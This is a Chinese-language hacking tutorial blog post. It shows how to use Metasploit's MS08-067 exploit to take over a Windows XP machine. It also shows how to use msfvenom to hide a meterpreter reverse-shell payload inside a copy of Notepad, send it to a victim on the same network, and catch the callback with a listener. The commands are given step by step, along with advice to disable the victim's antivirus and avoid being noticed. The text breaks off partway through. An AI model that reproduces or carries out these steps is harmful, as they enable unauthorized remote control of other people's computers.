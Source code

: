 ```yaml
---
layout: post
title: 用kali来黑掉windows
tags: windows linux 教程
keywords: windows linux kali 教程 黑
categoty: tech
cover: 'https://coding.net/u/SunbossRS/p/GotBlogDowner/git/raw/master/img/kalihack/cover.png'
---
```

### 前言
哈喽大家好。我有好久没更新博客了。  
在这段时间里，我变得非常黑。因为我在为kali做准备。  
前一段时间，我的电脑移到其他地方去了，然后我去插那边的网线，结果插上是插上了，响灯也想了，电脑上也写着连接了，有因特访问。可是，我进百度却进半天都没进去，竟然还连接超时，7456。  
然后有人看了，说是我电脑的问题，叫我装双系统。Okay，这就是我最近在为kali做准备的原因。  
  
### 准备材料
- Kali电脑一部
- 没装防火墙和360卫士或防火墙不稳定的电脑一部*这里我用xp*
  - (可选)摄像头
  - (可选)麦克风

### 目录
- 直接攻击
  - 利用漏洞进行攻击
- 软件攻击
  - 编译软件并发送给受害者
  - 受害者接受并打开软件
  - “注入灵魂”
- 附录
  -Meterpreter命令

### 01.开启Metasploit
Metasploit是一个安全渗透软件。Kali可以在终端*root*里输入:  
```bash
msfconsole
```
来打开它。
![]({{ site.imgbed }}/img/kalihack/01.png)

### 02. 搜索Xp漏洞
也正是msf是一个安全渗透软件，所以我们可以查看漏洞。输入:
```msf
search platform: windows
```
或者是
```msf
search netapi
```
来搜索。  
之后，你会看到有一个`ms08-netapi`的漏洞，利用等级是`great`。  
但确保你要攻击的电脑有这个ms08漏洞。  
![]({{ site.imgbed }}/img/kalihack/02.png)

### 03.使用ms08漏洞并设置
使用该内容，输入:
```msf
use exploit/windows/smb/ms08_067netapi
```
然后你会发现命令的提示符旁边多了一些字符，叫做`exploit(windows/smb/ms08_067-netapi)`的东西，表示着漏洞使用成功。
你可以通过`info *内容名`来详细查看这个内容。
![]({{ site.imgbed }}/img/kalihack/03.png)

### 04.设置载荷
载荷可以说是一个会话的类型设置。你可以看到，命令的末尾有个`bind_tcp`。  
`bind tcp`是比较隐秘的会话。`reverse_tcp`是通过软件发起的对话。我等会儿会讲软件传播。  
```msf
set payload windows/meterpreter/bind_tcp
```

### 05.设置要控制的主机
另外，我们要攻击Xp主机，需要先提前知道Xp的IP地址。  
别被人发现，跑到Xp电脑，输入`ipconfig`查看ip地址。比如，我这里看到ip地址是`192.108.1.104`。    
知道后，回到你的kali前，输入:  
```msf
set RHOST 192.108.1.104
```
这里是设定控制主机的ip地址，RHOST可以说是全写Remote Host。这里我做个例子，ip地址是192.108.1.104。

### 06.开始攻击！
做完这些后，你就可以开始hack了！输入
```msf
exploit
```
![]({{ site.imgbed }}/img/kalihack/04.png)
![]({{ site.imgbed }}/img/kalihack/05.png)

<br /> <br /> <br />

***

<br />
### 前言
你可以先弄出一个我们经常用的应用程序，然后把连接会话藏到这些应用里。这就是为什么在那些2008、2009年时说的“不要下载网站上未知来源的东西”。  
但现在我们有了360安全卫士啊，电脑管家啊那些杀毒软件就变得安全多了。对于我这个灰帽黑客兼MC博主来讲，This is a LITTLE problem。  
But anyways，我们关掉那台Xp的杀毒软件就行了鸭［滑稽］。  
好吧，我们废话不多说，开始正题。

### 01.编译软件和发送
先在`~/`的位置里放置从电脑上拷贝出来的Notepad.exe  
然后在kali命令行里输入这段命令:  
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.106.12.175 LPORT=4444 -x NOTEPAD.EXE -e x86/jmp_call_additive -i 4 -k -f exe > ~/NotepadPro.exe
```
这里我们可以看到-p指到了reverse_tcp了。-p全写就是payload鸭。  
这里的LHOST是指你的Kali电脑的ip地址。  
这里的LPORT是指你的Kali电脑的端口。随情况而定。  
这里的-x是指源，然后msfvenom根据源进行修改和添加。    
至于后面，是指转成X86（32位系统）的软件exe格式。  
  
然后，你会发现在`~/`的位置下生成了一个`NotepadPro.exe`。  
你把它发给在同一个局域网的用户，并指示受害者打开。不过前提是360要关掉。否则..  
![]({{ site.imgbed }}/img/kalihack/06.png)

### 02.设置内容并等待受害者打开文件
```msf
use exploit/multi/handler
//表示使用活动指向的监听器
```
```msf
set LHOST 192.106.12.175
//设置本机ip
```
```msf
set LPORT 4444
//设置本机端口
```
```msf
set payload windows/meterpreter/reverse_tcp
//设置载荷为*比较开放的tcp*
```
```msf
exploit
//开启监听
```
注意，开启监听后，你不会立刻进入`meterpreter`命令提示符的shell。知道受害者打开所谓的`NotepadPro.exe`应用。  
可是，受害者打开后，又会关闭。关闭后，你将无法继续使用`meterpreter`。
